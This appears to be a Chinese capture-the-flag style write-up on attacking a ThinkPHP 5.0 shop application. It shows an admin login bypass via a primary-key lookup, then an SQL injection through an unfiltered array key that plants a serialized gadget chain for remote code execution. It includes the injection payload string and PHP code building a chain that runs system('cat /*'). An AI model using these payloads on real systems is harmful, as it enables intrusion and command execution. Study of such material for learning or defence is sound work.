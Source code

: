![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3rLBfjutjU8NkGBzhzicI0Mibr98UVZeJrkjZjJoVibMTl65ThB5iaRtzNw/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
再看看执行的shop.sql和goods.sql，其中shop.sql中插入了一条admin的数据，密码为e10打头MD5加密值（一眼就是123456）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3IZn6qOUARzMxjlSE3ic76woTT03hVEMFGLiaRhic4nzEic1cReOjl7ictdA/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
其中Admin.php下的方法路由，除了login和register之外都需要鉴权，核心的查询语句如下：  
- • 从admin表里查询数据，将密码做md5之后做比对，比对成功之后鉴权成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3qG8zKFnJXia1s1n7DXvjqhzjjxDvEvjLa9hvNGS6EZAdEO9MBdoSiccA/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
这时候，大多数人应该都是直接输入admin、admin，但是显示登录失败（怀疑人生了几个小时） 这里登录失败的原因是，传入的username直接放到了find方法的参数中，一般来说，如果需要限制查询条件，会放在where方法里边，而find()一般都是放在最后，处于无参状态。但是这里既然有参，就肯定能用，在find有参数的情况下，默认会去找数据表中的主键列，所以这里使用1、123456登录到后台即可。  
  
到了后台，就该思考如何rce了，看到good_edit.html页中，会对数据库中的data列做反序列化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3MTekvBRpLQ9qVicaQRGqzPAicXibS0wxskEecic2NvCD16qllyFiczKRvZw/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
由于使用了ThinkPHP 5.0的框架，所以可以用该框架下的链实现反序列化RCE，那接下来要做的就是想办法控制数据库中的数据  
  
在Admin.php的do_edit方法中，会将POST体里的所有数据交给saveGoods处理  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3GDIiafSAvBibqrRNicn1smFWibgGNdWzmMt4tGDlG5Z3wZ0ny7x30gA3JA/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
再交给save方法处理，注意：这个过程中，$data这个数组都是完全可控的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3oPic8Wpc1VTicPz8aCFb5x5eoqlicXzlQiaX08CPLQrn9lrUq67jrAfpaw/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
由于数组可控，所以数组的键和值都是完全可控的，在updatedata中，$key这个地方没有做过滤，所以在这个地方会造成SQL注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3l0AjLNnDlLlfWJSoUBjH8ewqx0Ml3qgvKZaZhLh9VkFb9yMCBvbGfQ/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
注入的payload就是下方这样，注意传参的时候，给=符号做url编码，由于参数名带有空格，会被PHP解析为下划线，所以用/**/绕过一下即可  
```
data`%3Dunhex('这里填十六进制数据')/**/where/**/id%3D1/**/or/**/6%3D6#=1&id=1&name=a&price=100.00&image=1&data=

```  
  
而十六进制数据处就找一条ThinkPHP 5.0的链子改改就行  
```
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
        {
            $this->files = [new Pivot($function,$parameter)];
        }
    }
    $a = array(new Windows('system','cat /*'));
    echo bin2hex(base64_encode(serialize($a)));
}
```